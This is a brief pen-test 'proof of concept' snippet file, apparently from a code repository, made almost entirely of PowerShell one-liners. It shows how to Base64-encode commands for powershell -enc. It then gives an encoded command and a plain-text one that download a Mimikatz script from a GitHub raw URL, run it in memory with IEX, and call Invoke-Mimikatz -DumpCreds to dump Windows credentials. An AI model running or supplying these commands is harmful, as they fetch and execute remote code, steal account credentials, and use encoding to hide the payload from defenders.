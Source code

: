# Pen-test proof of concept code 

## converting to Base64 encoded string
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

## running the encoded command with powershell
powershell.exe -encoded $Encoded

## mimikatz powershell encoded.bat win10 compatible
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAAIAA9ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsAIAA=


## mimikatz powershell not encode win10 compatible
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m
